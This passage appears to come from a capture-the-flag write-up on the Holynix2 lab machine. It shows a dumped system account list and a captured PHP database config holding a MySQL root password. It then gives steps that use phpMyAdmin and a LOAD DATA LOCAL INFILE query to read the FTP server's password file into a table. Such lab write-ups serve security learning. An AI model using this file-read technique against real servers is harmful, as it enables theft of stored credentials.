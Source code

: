 rwoo:!:14949:0:99999:7:::
kmccallum:!:14949:0:99999:7:::
cjalong:!:14949:0:99999:7:::
jsmith:!:14949:0:99999:7:::
dhammond:!:14949:0:99999:7:::
hmcknight:!:14949:0:99999:7:::
lwestre:!:14949:0:99999:7:::
gwelch:!:14949:0:99999:7:::
dmoran:!:14949:0:99999:7:::
dsummers:!:14949:0:99999:7:::
bzimmerman:!:14949:0:99999:7:::
ncobol:!:14949:0:99999:7:::
ddypsky:!:14949:0:99999:7:::
rcropper:!:14949:0:99999:7:::
cbergey:!:14949:0:99999:7:::
tmartin:!:14949:0:99999:7:::
jgacy:!:14949:0:99999:7:::
splath:!:14949:0:99999:7:::
evorhees:!:14949:0:99999:7:::
rfrost:!:14949:0:99999:7:::
ahuxley:!:14949:0:99999:7:::
webmaster:!:14949:0:99999:7:::
cmanson:!:14949:0:99999:7:::
vftp:!:14949:0:99999:7:::
{% endcodeblock %}

We also found:
{% codeblock %}
root@holynix2:/var/www/dev# cat dbconn.php
<?php
        $db_host = 'localhost';
        $db_user = 'root';
        $db_pass = 'dynamo59956783';
        $db_name = '_zincftp_data';
        $conn = mysql_connect($db_host, $db_user, $db_pass) or die("Unable to connect to MySQL");
        mysql_select_db($db_name,$conn) or die("Could not select Database");
{% endcodeblock %}

If there is not a vulnerable phpmyadmin, we can read the files to table too, according:

1) zincftp_data ->  Create new table on database zincftp_data

2) Name = ftp_pass, Number of fields = 1

3) Field = pass, Type = varchar, Length = 100

{% codeblock %}
SQL Query Window:

LOAD DATA LOCAL INFILE '/etc/pure-ftpd/pureftpd.passwd' INTO TABLE ftp_pass LINES TERMINATED BY '\n'
{% endcodeblock %}
